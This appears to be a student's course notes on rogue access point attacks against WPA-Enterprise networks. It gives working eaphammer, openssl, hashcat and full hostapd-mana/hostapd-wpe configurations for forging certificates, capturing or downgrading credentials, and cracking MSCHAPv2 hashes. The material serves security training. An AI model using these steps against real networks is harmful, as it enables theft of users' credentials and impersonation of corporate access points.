

# Rogue AP Attacks on MGT
For a rogue AP attack to work on a [MGT](../../networking/wifi/802.1X.md) network, two things have to be true:
1. The client uses a username and password for authentication (does not use a certificate)
2. The client does not verify the server's certificate with a known CA

To carry out the attack, you have to *generate a fake [SSL](../../networking/protocols/SSL.md) certificate* which will be sent to clients to set up the [TLS](../../networking/protocols/TLS.md) tunnel. We can use `eaphammer` to generate the cert with the following command:
```bash
./eaphammer --cert-wizard
```
Always enter the same information obtained during the MGT network [recon](recon.md) process into the text fields, so if a client manually checks the certificate text fields, they will find correct corporate information.
## MSCHAPv2
To create a rogue AP for an MSCHAPv2 network, create a malicious AP with the same name and wait for a client to connect (or [2.1 Force traffic](../PSK-attacks/handshake-attack.md#2.1%20Force%20traffic) with a deauth attack).
```bash
python3 ./eaphammer -i wlan3 --auth wpa-eap --essid $ESSID --creds
```
If a client connects to the network and sends credentials, they'll appear in the output, along with the challenge and its response. The hash will also be printed.
### Cracking the Hash
You can crack the hash with [hashcat](../../cybersecurity/TTPs/cracking/tools/hashcat.md) using mode 5500:
```bash
hashcat -a 0 -m 5500 hashcat.5500 ~/rockyou-top100000.txt --force
```
### If the client is using GTC
If the client is using GTC, the attack is nearly the same save for there is a time restraint. Negotiation will take longer and we risk the client eventually connection to the actual AP. To prevent this, we can tell `eaphammer` to test the *weakest* EAP methods first. This allows us to *capture the username and password in cleartext* without needing to crack them:
```bash
python3 ./eaphammer -i wlan3 --auth wpa-eap --essid wifi-corp --creds --negotiate weakest
```

### Manually
#### 1. Create CA and public certificate
##### 1. Create a self-signed Cert
```bash
openssl genrsa -out ca.key 2048
```
##### 2. Create the conf file
Create a configuration file called `ca.conf` with all the certificate information. These fields need to be edited before execution to *mimic the client's real certificate*.
```bash
echo '[ req ]
default_bits       = 2048
distinguished_name = req_DN
string_mask        = nombstr

[ req_DN ]
countryName                     = "1. Country Name             (2 letter code)"
countryName_default             = ES
countryName_min                 = 2
countryName_max                 = 2
stateOrProvinceName             = "2. State or Province Name   (full name)    "
stateOrProvinceName_default     = Madrid
localityName                    = "3. Locality Name            (eg, city)     "
localityName_default            = Madrid
0.organizationName              = "4. Organization Name        (eg, company)  "
0.organizationName_default      = WiFiChallenge Lab
organizationalUnitName          = "5. Organizational Unit Name (eg, section)  "
organizationalUnitName_default  = Certificate Authority
commonName                      = "6. Common Name              (eg, CA name)  "
commonName_max                  = 64
commonName_default              = WiFiChallenge Lab CA
emailAddress                    = "7. Email Address            (eg, name@FQDN)"
emailAddress_max                = 40
emailAddress_default            = ca@WiFiChallenge.com' > ca.conf
```
##### 3. Create the `ca.csr` file
```bash
openssl req -config ca.conf -new -key ca.key -out ca.csr
```
##### 4. Create the `ca.crt` file
```bash
echo '
extensions = x509v3

[ x509v3 ]
basicConstraints      = CA:true,pathlen:0
crlDistributionPoints = URI:https://WiFiChallenge.com/ca/mustermann.crl
nsCertType            = sslCA,emailCA,objCA
nsCaPolicyUrl         = "https://WiFiChallenge.com/ca/policy.htm"
nsCaRevocationUrl     = "https://WiFiChallenge.com/ca/heimpold.crl"
nsComment             = "WiFiChallenge Lab CA"
' > ca.ext

openssl x509 -days 1095 -extfile ca.ext -signkey ca.key -in ca.csr -req -out ca.crt
```
##### 5. Generate a server certificate and sign it with your new CA
```bash
#Creation Of A Server Certificate
openssl genrsa -out server.key 2048
echo '
[ req ]
default_bits       = 2048
distinguished_name = req_DN
string_mask        = nombstr

[ req_DN ]
countryName                     = "1. Country Name             (2 letter code)"
countryName_default             = ES
countryName_min                 = 2
countryName_max                 = 2
stateOrProvinceName             = "2. State or Province Name   (full name)    "
#stateOrProvinceName_default     =
localityName                    = "3. Locality Name            (eg, city)     "
localityName_default            = Madrid
0.organizationName              = "4. Organization Name        (eg, company)  "
0.organizationName_default      = WiFiChallenge Lab
organizationalUnitName          = "5. Organizational Unit Name (eg, section)  "
organizationalUnitName_default  = Server
commonName                      = "6. Common Name              (eg, CA name)  "
commonName_max                  = 64
commonName_default              = WiFiChallenge Lab CA
emailAddress                    = "7. Email Address            (eg, name@FQDN)"
emailAddress_max                = 40
emailAddress_default            = server@WiFiChallenge.com

' > server.conf

echo 'extensions = x509v3

[ x509v3 ]
nsCertType       = server
keyUsage         = digitalSignature,nonRepudiation,keyEncipherment
extendedKeyUsage = msSGC,nsSGC,serverAuth' > server.ext

echo -ne '01' > ca.serial

openssl req -config server.conf -new -key server.key -out server.csr

openssl x509 -days 730 -extfile server.ext -CA ca.crt -CAkey ca.key -CAserial ca.serial -in server.csr -req -out server.crt
```
These commands generate a *client certificate* configured w/ the configuration file and signed with our CA. This produces a public certificate `server.crt` file and its key `server.key`.
#### 2. Create a configuration file with user info
This configuration file accepts everything:
```bash
echo '
*       PEAP,TTLS,TLS,FAST
"t"     TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2  "t"   [2]
' > /etc/hostapd.eap_user
```
#### 3.a. User `hostapd-mana` to create an AP
> [!Note]
> `hostapd-mana` and `hostapd-wpe` are modified versions of `hostapd` designed to carry out attacks on Wi-Fi networks. `hostapd-mana` is a more advanced and flexible tool than `hostapd-wpe`, as it includes additional features such as the ability to perform credential forwarding attacks and other types of attacks. On the other hand, `hostapd-wpe` is a perfectly functional tool for performing Evil Twin attacks, mainly on MGT networks. For example, `eaphammer` uses this tool behind the scenes to set up the AP and capture credentials.
##### a. Create a `hostapd-mana` config file:
This configuration file sets up how `hostapd-mana` will operate to perform an access point (AP) emulation attack and credential capture. It includes important settings such as:
```bash
# SSID of the AP
ssid=wifi-corp
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan2
driver=nl80211
# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=44
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=a
# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1
# Key workaround for Win XP
eapol_key_index_workaround=0
# EAP user file we created earlier
eap_user_file=/etc/hostapd.eap_user
# Certificate paths created earlier
ca_cert=/root/certs/ca.crt
server_cert=/root/certs/server.crt
private_key=/root/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
#dh_file=/root/certs/dh
# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP
# Enable Mana WPE
mana_wpe=1
# Store credentials in that file
mana_credout=hostapd.credout
# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1
#enable_sycophant=1
#sycophant_dir=/tmp/
# EAP TLS MitM
mana_eaptls=1
```
- `ssid`: Defines the name and interface of the AP
- `mode` and `channel`: Specifies the channel and mode of operation
- `eap_server`: Configures the AP as an EAP server using previously generated certificate files
- Security: Configures WPA/WPA2 authentication and encryption algorithms
- Mana Features: Activates credential capture features and EAP success sending to deceive the client
- `ca_cert`, `server_cert`, and `private_key` should be pointed at the paths for the files we made in the previous steps
##### b. Bring up the AP
```bash
sudo hostapd-mana /path/to/your/configuration_file.conf
```
#### 3.b. Alternatively, use `hostapd-wpe` to create the AP
##### a. Create the config file
```bash
# SSID of the AP
ssid=wifi-corp

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan2
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=44
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=a

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd.eap_user

# Certificate paths created earlier
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key

# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/root/certs/dh

# Open authentication
auth_algs=1

# WPA/WPA2
wpa=3

# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP


# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1
enable_sycophant=1
sycophant_dir=/tmp/

# EAP TLS MitM
mana_eaptls=1
```
##### b. Bring up the AP
```bash
sudo hostapd-wpe /path/to/your/configuration_file.conf
```


> [!Resources]
> - [Wifi Challenge Academy](https://academy.wifichallenge.com/courses/take/certified-wifichallenge-professional-cwp/texts/57442980-introduction)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.